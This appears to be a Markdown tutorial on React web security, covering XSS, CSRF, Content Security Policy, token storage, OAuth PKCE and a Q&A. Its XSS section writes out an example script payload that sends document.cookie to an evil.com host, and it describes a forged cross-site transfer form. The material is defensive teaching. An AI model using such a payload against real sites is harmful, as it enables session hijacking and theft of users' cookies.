


## Why This Matters

An attacker submits a contact with a name that contains a `<script>` tag. Your contacts list renders all names. Without the right defenses, that script executes in every visitor's browser — stealing cookies, hijacking sessions, defacing your app.

Web security sounds complex, but every attack comes down to two violations: **data got treated as code**, or **credentials leaked across origins**. React's default escaping handles the first. SameSite cookies handle the second. Everything else is defense-in-depth.

## The Core Idea

**Never trust input. Never leak authority.**

Anything from a user, a URL, or an API can be hostile. Treat data as data — never as code. Don't let one origin act with another origin's credentials. The browser's entire job is keeping origins isolated. Every attack breaks that isolation.

From those two rules, everything follows. React's default escaping turns data into text, not HTML. SameSite cookies stop credentials from leaking across origins. CSP is defense-in-depth for rule one. Token storage is the tradeoff of which rule you're optimizing for. No need to memorize an attack list — every vulnerability is one of these two violations.

## XSS: When Data Becomes Code



A user submits `<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>` as a contact name. React sees `{contact.name}` in JSX, creates a text node — angle brackets become `&lt;` and `&gt;`. The browser displays the literal text. No script executes. Attack dead on arrival.

The hole: `dangerouslySetInnerHTML` or `innerHTML`. These tell the browser "trust this as HTML." The browser parses the string, finds the `<script>` tag, and executes it. The attacker's script runs in your origin, reads `document.cookie`, and sends it to their server.

**Fix:** If you must render rich HTML, sanitize with DOMPurify first — it parses the HTML, strips dangerous elements (script, iframe, event handlers), and returns safe markup. But escaping (the default) always wins when you don't need rich formatting.

## CSRF: When Credentials Leak Across Origins


User is logged into bank.com (session cookie set). Visits evil.com. Evil.com has a hidden form that auto-submits a POST to bank.com/transfer with `to=attacker&amount=1000`. The browser auto-attaches the bank.com session cookie. Bank.com sees a valid cookie. Transfer executes. The user never clicked anything on bank.com.

**`SameSite=Lax` defense:** The browser checks the cookie's SameSite attribute. Lax means: only send cookies for top-level navigations (clicking a link), not cross-site form submissions. The browser strips the cookie. Bank.com receives the POST without authentication and rejects it. Attack neutralized.

`SameSite=Lax` doesn't protect against top-level GET-based CSRF (a link to `bank.com/transfer?to=attacker` still sends cookies). But state-changing operations should never be GET — that's a design constraint, not a SameSite limitation. For defense-in-depth, pair SameSite with anti-CSRF tokens on state-changing endpoints.

## CSP: Defense-in-Depth

A `Content-Security-Policy` header tells the browser which script sources are allowed. Before executing any script, the browser checks the CSP. If the source doesn't match, the browser blocks it and reports the violation.

Even if an attacker injects a `<script>` tag via an unsanitized field, CSP blocks it from executing *and* from phoning home. A strict CSP like `script-src 'self' 'nonce-abc123'` means only scripts from your origin with the correct nonce can execute. This protects against third-party scripts (analytics, widgets), browser extensions, and future code where someone uses `innerHTML` without sanitizing.

Start with `Content-Security-Policy-Report-Only` to discover violations before enforcing. This way you don't break legitimate third-party scripts on day one.

## Token Storage

Where you store auth tokens determines your attack surface. Each option trades XSS risk against CSRF risk.

| Storage | XSS Risk | CSRF Risk | Persistence | Use Case |
|---|---|---|---|---|
| localStorage | High — any XSS reads it | Low — browser won't auto-send | Survives tabs/reloads | Not recommended for tokens |
| sessionStorage | High — same XSS exposure | Low — not sent cross-origin | Single tab only | Temporary form state, not auth |
| HttpOnly cookie | Low — JS can't access it | Medium — browser auto-attaches | Survives tabs/reloads | Refresh tokens, session tokens |
| In-memory variable | Medium — XSS reads it | Low — not auto-attached | Lost on page reload | Short-lived access tokens |

**The tradeoff:** There's no perfect location. HttpOnly cookies protect against XSS (JS can't read them) but auto-attach to requests (CSRF risk). In-memory variables protect against CSRF (not auto-attached) but XSS can still read them. localStorage persists but exposes tokens to any XSS vector.

**Best practice:** Refresh token in `HttpOnly + Secure + SameSite` cookie (long-lived, never exposed to JS). Short-lived access token in memory (5-15 minutes). Strong XSS defenses (CSP, output escaping) as primary protection. SameSite + anti-CSRF tokens for remaining CSRF surface. Rotate refresh tokens on every use and revoke on logout.

## CSP: Content Security Policy

CSP tells the browser which resources (scripts, styles, images, fonts) are allowed to load. It's your last line of defense when escaping fails or third-party code misbehaves.

**What it prevents:** Inline script injection, loading scripts from untrusted origins, eval() abuse, clickjacking via frame restrictions, and data exfiltration to attacker-controlled servers.

**Common directives:**

| Directive | Controls | Example |
|---|---|---|
| `script-src` | Where scripts can load from | `'self' https://trusted-cdn.com` |
| `style-src` | Where styles can load from | `'self' 'unsafe-inline'` |
| `img-src` | Where images can load from | `'self' data: https:` |
| `connect-src` | Where fetch/XHR/WebSocket can connect | `'self' https://api.yourapp.com` |
| `frame-ancestors` | Who can embed your page in an iframe | `'none'` |
| `base-uri` | What URLs `<base>` can set | `'self'` |

**Setup example:**

```
Content-Security-Policy: script-src 'self' 'nonce-abc123'; style-src 'self'; default-src 'self'; frame-ancestors 'none'; base-uri 'self'
```

Nonces and hashes let you whitelist specific inline scripts without allowing all inline code. Start with `Content-Security-Policy-Report-Only` to discover violations before enforcing — this prevents breaking legitimate third-party scripts on day one.

**Why it matters:** CSP is defense-in-depth. Even if an attacker injects `<script>` via an unsanitized field, CSP blocks it from executing *and* from phoning home.

## OAuth 2.0 Flow: Authorization Code with PKCE

OAuth 2.0 lets your app access user data from another service (Google, GitHub) without handling passwords. The Authorization Code flow with PKCE is the standard for SPAs and mobile apps.

**Simplified flow:**



**Why PKCE matters:** Without PKCE, a malicious app could intercept the authorization code. PKCE adds a `code_verifier` (random string) your app generates, hashes as `code_verifier_challenge` sent in the initial request, and sends the original `code_verifier` when exchanging the code. The auth server verifies the hash matches. Only the app that started the flow can complete it.

**Key principles:**
- Never store tokens in localStorage — use HttpOnly cookies or in-memory
- Always use PKCE for SPAs — implicit flow is deprecated
- Rotate refresh tokens and revoke on logout
- Validate tokens server-side, never trust client-side checks

## XSS Prevention: Defense-in-Depth

React's default escaping handles most cases, but XSS requires layered defenses.

**DOMPurify:** Sanitizes HTML before rendering. Use when you must render rich content (user comments, markdown output). It parses HTML and strips dangerous elements — script tags, event handlers, iframe, etc.

```jsx
import DOMPurify from 'dompurify';
const clean = DOMPurify.sanitize(userContent);
<div dangerouslySetInnerHTML={{ __html: clean }} />
```

**React's built-in protections:**
- JSX escapes values by default — `{userInput}` becomes text, not HTML
- No event handler injection via string attributes
- `dangerouslySetInnerHTML` is the only way to bypass escaping — use sparingly

**Manual escaping (for non-React contexts):**

```javascript
function escapeHtml(str) {
  const div = document.createElement('div');
  div.textContent = str;
  return div.innerHTML;
}
```

**Why it matters:** XSS is the most common web vulnerability. Defense-in-depth means even if one layer fails (someone uses `innerHTML`), others catch it (CSP blocks execution, DOMPurify strips dangerous markup).

## CSRF Prevention: Beyond SameSite

SameSite cookies handle most CSRF, but state-changing operations need additional protection.

**SameSite cookie attributes:**

| Value | Behavior | CSRF Protection |
|---|---|---|
| `Strict` | Never send on cross-origin requests | Maximum — but breaks legitimate cross-site links |
| `Lax` | Send only on top-level GET navigations | Good default — blocks cross-site POSTs |
| `None` | Send on all requests (requires `Secure`) | None — only for intentional cross-origin APIs |

**CSRF tokens:** Server generates a random token, includes it in a hidden form field or custom header. Server validates it on state-changing requests. Attackers can't guess the token and can't read it from SameSite-protected cookies.

**Double-submit cookie pattern:** Server sets a random token in both a cookie and a custom header. On state-changing requests, client sends both. Server verifies they match. Attackers can trigger requests but can't read the cookie value to include in the header.

**Why it matters:** SameSite alone doesn't protect against subdomain attacks or legacy clients. CSRF tokens add server-side validation that attackers can't bypass without compromising the token itself.

## Q&A

**1. Why does React prevent XSS by default?**

JSX inserts values as text nodes via `createElement`. Text nodes are not parsed as HTML. Special characters are automatically escaped to HTML entities. The only hole is `dangerouslySetInnerHTML`, which sets `innerHTML` directly — telling the browser to parse the string as HTML. Sanitize with DOMPurify if you must use it.

**2. What does `SameSite=Lax` actually block?**

Cross-site form POSTs, fetch calls, and img tags. It still allows top-level GET navigations (clicking a link to the site). State-changing operations should never be GET, so this covers most CSRF. For defense-in-depth, pair with anti-CSRF tokens on state-changing endpoints.

**3. Why is CSP useful if I already escape output?**

Output escaping handles known injection points. CSP catches what escaping misses: third-party scripts you load (analytics, widgets), browser extensions injecting scripts, subresource integrity failures, and future code where someone uses `innerHTML` without sanitizing. It's the safety net.

**4. Why is `rel=noopener` needed on `target=_blank`?**

When a link opens in a new tab with `target="_blank"`, the new page gets a reference to the original via `window.opener`. The opened page can redirect the original — reverse tabnabbing. `rel="noopener"` sets `window.opener` to null. Modern browsers set this by default, but explicit is still best practice.

**5. Why should I use PKCE for SPAs instead of implicit flow?**

The implicit flow returns tokens directly in the URL fragment, which can leak via browser history, referrer headers, or logs. PKCE keeps the authorization code exchange server-side, even in SPAs. The `code_verifier` prevents authorization code interception attacks. OAuth 2.1 deprecates implicit flow entirely.

**6. What's the difference between CSRF tokens and double-submit cookies?**

CSRF tokens are embedded in forms or custom headers and validated server-side against a session store. Double-submit cookies rely on the browser's SameSite policy — the token is in both a cookie and a header, and the server verifies they match. Double-submit is stateless (no server-side session needed) but slightly less secure against sophisticated attacks. Use CSRF tokens for banking/financial operations; double-submit works fine for most web apps.

## Mental Trigger

**Data is not code. Credentials don't cross origins.**
